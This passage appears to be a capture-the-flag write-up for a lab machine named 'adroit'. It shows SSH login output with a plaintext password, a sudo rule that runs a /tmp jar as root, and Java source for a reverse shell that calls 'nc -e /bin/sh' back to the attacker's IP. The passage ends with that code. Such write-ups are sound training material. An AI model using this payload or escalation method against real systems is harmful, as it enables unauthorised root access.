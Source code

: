 - Result : `just.write<REDACTED>`

- SSH Connection, user.txt

{% highlight sh %}
  ┌──(alienum㉿kali)-[~]
  └─$ ssh writer@10.0.2.142
  writer@10.0.2.142's password: just.write.my.ideas

  writer@adroit:~$ sudo -l
  [sudo] password for writer: just.write.my.ideas
  Matching Defaults entries for writer on adroit:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

  User writer may run the following commands on adroit:
      (root) /usr/bin/java -jar /tmp/testingmyapp.jar
  writer@adroit:~$
{% endhighlight %}

## Root priv esc

The user writer he is able to run the `testingmyapp.jar` under the `/tmp` dir as root If we check the /tmp dir there is no file named testingmyapp.jar. So, we are able to create our `malware` reverse shell testingmyapp.jar

## ECLIPSE Creating our testingmyapp.jar

- File -> New -> Java Project -> Project name : `testingmyapp`
- Expand the `testingmyapp` project file -> Choose the src file + right click -> New -> Class -> Name : `Explo`

## Explo.class Reverse shell


{% highlight java %}
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;

public class Explo {

	public static void main(String[] args) throws IOException {

		String cmd = "nc -e /bin/sh <MY_IP> 4444";
		Process p = Runtime.getRuntime().exec(cmd);

		BufferedReader pRead = new BufferedReader(new InputStreamReader(p.getInputStream()));

		String line;

		while ((line = pRead.readLine()) != null) {

			System.out.println(line);

		}

	}

}
{% endhighlight %}

